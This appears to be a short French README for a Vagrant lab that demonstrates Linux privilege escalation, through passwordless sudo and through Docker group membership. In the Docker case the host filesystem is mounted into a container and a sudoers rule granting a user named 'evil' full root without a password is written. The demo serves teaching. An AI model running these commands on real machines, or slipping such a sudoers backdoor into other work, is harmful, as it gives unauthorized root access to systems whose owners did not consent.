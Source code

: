 # Privilege escalation

Retrouvez la vidéo ici : 

## executer les exemples : 

```
$ git clone https://github.com/NeuronAddict/privesc-demo
$ cd privec-demo
$ vagrant up
$ vagrant ssh
```

## sudo sans passwd

```
$ id
$ sudo -i
#
```


## avec docker 

```
docker run -v /:/sysroot -it alpine:3
echo "evil ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/evil
```


